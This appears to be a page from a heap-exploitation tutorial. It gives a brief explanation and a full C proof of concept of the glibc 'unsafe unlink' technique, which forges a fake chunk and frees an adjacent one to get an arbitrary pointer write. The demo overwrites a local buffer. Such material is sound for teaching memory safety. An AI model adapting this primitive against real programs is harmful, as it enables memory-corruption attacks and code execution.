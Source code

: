     * P->fd->bk = P->bk 
    * P->bk->fd = P->fd
    
In this case both P->fd->bk and P->bk->fd point to the same location. Now chunk1[3] and chunk[0] point to the same data



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct chunk_structure{
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10];
};

int main(){
    unsigned long long *chunk1, *chunk2;
    struct chunk_structure *fake_chunk, *chunk2_hdr;
    char data[20];
    
    chunk1=malloc(0X80);
    chunk2=malloc(0x80);
    printf("%p\n", &chunk1);
    printf("%p\n", chunk1);
    printf("%p\n", chunk2);

    
    fake_chunk = (struct chunk_structure *)chunk1;
    fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); 
    fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2);
    
    chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
    chunk2_hdr->prev_size=0x80;
    chunk2_hdr->size &=~0x1;
    
    free(chunk2);
    
    chunk1[3] = (unsigned long long)data;
    
    strcpy(data, "Victim's data");
    
    chunk1[0] = 0x002164656b636168LL;
    
    printf("%s\n", data);
       
    return 0;
}
```
